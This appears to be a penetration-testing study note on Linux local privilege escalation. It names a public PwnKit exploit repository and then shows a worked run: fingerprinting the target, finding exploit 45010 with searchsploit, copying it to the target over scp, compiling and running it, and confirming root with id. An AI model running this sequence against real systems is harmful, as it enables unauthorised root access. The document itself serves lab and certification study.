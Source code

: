 ```
Pwnkit (exploit-db 50689) showing on linpeas? try this--
	github.com/joeammond/CVE-2021-4034
	CVE might not always be visible!!!
```

Success may depend on both Kernel and OS flavor

Target system
	`cat /etc/issue`
Kernel and Architecture
	`uname -r`
	`arch`

Demonstration
	`cat /etc/issue`
		Ubuntu 16.04.4 LTS \n \l
	`uname -r`
		4.4.0-116-generic
	`arch`
		x86_64
	Searchsploit
		`searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
		filtering clutter 
		found one
```
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                                                                             | linux/local/45010.c
```
ok
	Read instructions
		`cp /usr/share/exploitdb/exploits/linux/local/45010.c .`
		`head 45010.c -n 20`
		We see this:
			`gcc cve-2017-16995.c -o cve-2017-16995
			so we just need to compile
	Rename exploit
		`mv 45010.c cve-2017-16995.c
	Transfer 
		`scp cve-2017-16995.c joe@192.168.123.216:`
	Compile on target machine
		`gcc cve-2017-16995.c -o cve-2017-16995`
	Inspect
		`file cve-2017-16995`
	Execute
		`./cve-2017-16995`
	Verify
		`id`


## Windows
